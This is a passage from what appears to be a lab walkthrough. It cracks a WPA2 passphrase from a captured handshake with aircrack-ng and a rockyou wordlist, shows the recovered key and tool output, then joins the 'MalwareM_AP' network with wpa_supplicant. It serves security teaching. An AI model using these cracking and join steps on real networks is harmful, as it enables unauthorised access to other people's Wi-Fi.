 
In the second terminal, we can use the captured WPA handshake to attempt to crack the WPA/WP2 passphrase. We will be performing a dictionary attack in order to match the passphrase against each entry in a specified wordlist file. A shortened version of the infamous `rockyou.txt` wordlist has already been provided for us to use. This is located in the `/home/glitch/` directory. If the passphrase is weak and appears in the wordlist, it will eventually be cracked. The command `sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap` will do this for us where the `-a 2` flag indicates the WPA/WPA2 attack mode. The `-b` indicates the BSSID of the access point, and the `-w` flag indicates the dictionary list to use for the attack. Finally, we select the output files that we will be using, which contain the 4-way handshake that we will be cracking.

```
sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap

Aircrack-ng 1.6 

      [00:00:01] 488/513 keys tested (568.00 k/s) 

      Time left: 0 seconds                                      95.13%

                        KEY FOUND! [ fluffy/champ24 ]


      Master Key     : 44 9B 35 B0 98 49 3D E2 C2 BB 98 AF F6 22 38 64 
                       48 9A DA 09 A5 CC C9 D7 5C 33 DD 5F 3A 4A 43 EB 

      Transient Key  : BF C0 5B 8B AC BA DE CF 68 47 2C 12 73 40 68 38 
                       98 D7 61 F9 28 0C 81 FA CF 71 BF 64 9C 5D BE DB 
                       C9 87 5C 23 FA BA BF 22 8D AC 72 75 3B 50 6A 48 
                       1C 2A C4 C6 42 C7 CD BC 70 7E F0 6E F8 15 46 5D 

      EAPOL HMAC     : 39 BB C6 6B 9A C3 F8 98 E5 BC 08 46 D8 1E AA AD 


```


**Note:** If you get an `Packets contained no EAPOL data; unable to process this AP` error, this means that you ran aircrack-ng prior to the handshake being captured or that the handshake was not captured at all. If that's the case, then re-do all of the steps in order to capture the `WPA handshake`.

With the PSK, we can now join the **MalwareM_AP** access point. In a typical engagement, we would do this to inspect the new network, or in some cases, joining the access point is enough to show impact. First, press `CTRL+C` on the terminal that has `airodump-ng` running in order to stop the **airodump-ng** process. We do this because we will not be able to join the Wi-Fi network while airodump-ng is running due to the fact that we are actively using the interface in monitor mode. Then execute the following commands:

```
litch@wifi:~$ wpa_passphrase MalwareM_AP 'fluffy/champ24' > config                    
glitch@wifi:~$ sudo wpa_supplicant -B -c config -i wlan2                               
Successfully initialized wpa_supplicant                                                
rfkill: Cannot get wiphy information   
```
